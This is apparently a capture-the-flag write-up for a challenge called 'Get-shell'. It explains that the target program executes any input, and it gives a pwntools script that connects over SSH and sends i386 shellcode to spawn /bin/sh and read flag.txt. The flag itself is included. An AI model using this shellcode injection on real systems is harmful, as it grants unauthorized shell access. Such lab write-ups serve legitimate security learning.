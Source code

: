 ## Problem: Get-shell

Can you somehow spawn a shell and get the flag present at flag.txt?

## Hint: 
The program executes any input you give. If you give a shellcode as an input, it would execute it to give you access to the shell.

## Explanation:

We can run any assembly code using this program. We get the shellcode for getting /bin/sh (shell access) using this script:

```
from pwn import *

s = ssh(host='', user='', password="")
sh = s.process('script', cwd='/')

sh.sendlineafter('!\n', asm(shellcraft.i386.linux.sh()))
sh.interactive()

$ cat flag.txt
```

Flag: `lakshya_CTF{5h3llc0d3d}`

